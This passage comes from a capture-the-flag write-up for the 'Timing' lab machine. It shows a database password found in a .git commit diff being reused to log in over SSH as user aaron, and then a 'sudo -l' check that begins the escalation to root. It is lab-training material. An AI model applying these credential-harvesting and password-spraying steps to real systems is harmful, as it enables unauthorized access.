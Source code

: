 We have a .git folder which can contain a lot of great information.

`git show`
```      
commit 16de2698b5b122c93461298eab730d00273bd83e (HEAD -> master)
Author: grumpy <grumpy@localhost.com>
Date:   Tue Jul 20 22:34:13 2021 +0000

    db_conn updated

diff --git a/db_conn.php b/db_conn.php
index f1c9217..5397ffa 100644
--- a/db_conn.php
+++ b/db_conn.php
@@ -1,2 +1,2 @@
 <?php
-$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', 'S3cr3t_unGu3ss4bl3_p422w0Rd');
+$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
```

Looks like the most recent commit was a password change to the one we saw earlier in db_conf. Spray this for aaron, a confirmed user on the box.

`ssh aaron@timing.htb`
```console                          
aaron@timing.htb's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jun  9 08:44:15 UTC 2022

  System load:  0.01              Processes:           173
  Usage of /:   49.3% of 4.85GB   Users logged in:     0
  Memory usage: 10%               IP address for eth0: 10.10.11.135
  Swap usage:   0%


8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

aaron@timing:~$
```

## Root
---
Start off by checking `sudo -l`
```
aaron@timing:~$ sudo -l
Matching Defaults entries for aaron on timing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aaron may run the following commands on timing:
    (ALL) NOPASSWD: /usr/bin/netutils
```

